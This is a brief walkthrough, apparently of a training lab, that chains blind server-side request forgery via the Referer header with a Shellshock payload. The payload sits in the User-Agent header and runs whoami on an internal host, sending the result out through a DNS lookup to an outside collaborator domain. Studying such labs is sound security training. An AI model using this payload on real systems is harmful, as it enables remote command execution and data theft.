 # Blind SSRF with Shellshock exploitation

## This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

## To solve the lab, use this functionality to perform a [blind SSRF]attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

this lab is expert

---

### step 1

add to scope product page and reload
![screenshot](images/lab7_issue.jpg)

89fd7z8vrenu0w5mfehbrh7z6qch09oy.oastify.com => this is burpsuite collaborator which is available in pro version
Shellshock exploit systems => () {:;}; /usr/bin/nslookup
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).89fd7z8vrenu0w5mfehbrh7z6qch09oy.oastify.com
Referer: http://192.168.0.§X§:8080/

![screenshot](images/lab7_payload.jpg)

![screenshot](images/lab7_burp_collaborator.jpg)
